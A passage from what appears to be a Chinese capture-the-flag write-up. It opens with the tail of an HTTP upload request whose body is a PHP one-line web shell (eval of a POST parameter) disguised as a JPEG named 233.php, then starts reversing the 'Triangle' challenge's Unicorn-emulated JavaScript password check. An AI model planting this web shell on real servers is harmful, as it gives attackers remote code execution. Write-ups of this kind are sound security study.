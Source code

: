 ```
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundaryuzacUTUZndq8dQSe
Content-Disposition: form-data; name="upfile"; filename="233.php"
Content-Type: image/jpeg

<?php @eval($_POST['eki']);?>
------WebKitFormBoundaryuzacUTUZndq8dQSe--
```

## 0x11 Triangle

F12看一下有四个脚本

secret.js,unicorn.js,util.js还有(index)里的js代码

先看index里的

```js
// toDataURL firefox vs chrome >:O
if(navigator.userAgent.toLowerCase().indexOf('firefox') > -1){
...//不知道是啥 应该是存数据的先不管。。。。


function login(){
	var input = document.getElementById('password').value;
	var enc = enc_pw(input);
	var pw = get_pw();
	if(test_pw(enc, pw) == 1){
		alert('Well done!');
	}
	else{
		alert('Try again ...');
	}
}
```

看起来是要想办法pw的值decode得到对应的flag（js逆向警告）

在secret.js里找到了这仨函数

```js
function test_pw(e, _) {
    var t = stoh(atob(getBase64Image("eye")))
      , r = 4096
      , m = 8192
      , R = 12288
      , a = new uc.Unicorn(uc.ARCH_ARM,uc.MODE_ARM);
    a.reg_write_i32(uc.ARM_REG_R9, m),
    a.reg_write_i32(uc.ARM_REG_R10, R),
    a.reg_write_i32(uc.ARM_REG_R8, _.length),
    a.mem_map(r, 4096, uc.PROT_ALL);
    for (var o = 0; o < o1.length; o++)
        a.mem_write(r + o, [t[o1[o]]]);
    a.mem_map(m, 4096, uc.PROT_ALL),
    a.mem_write(m, stoh(_)),
    a.mem_map(R, 4096, uc.PROT_ALL),
    a.mem_write(R, stoh(e));
    var u = r
      , c = r + o1.length;
    return a.emu_start(u, c, 0, 0),
    a.reg_read_i32(uc.ARM_REG_R5)
}
function enc_pw(e) {
```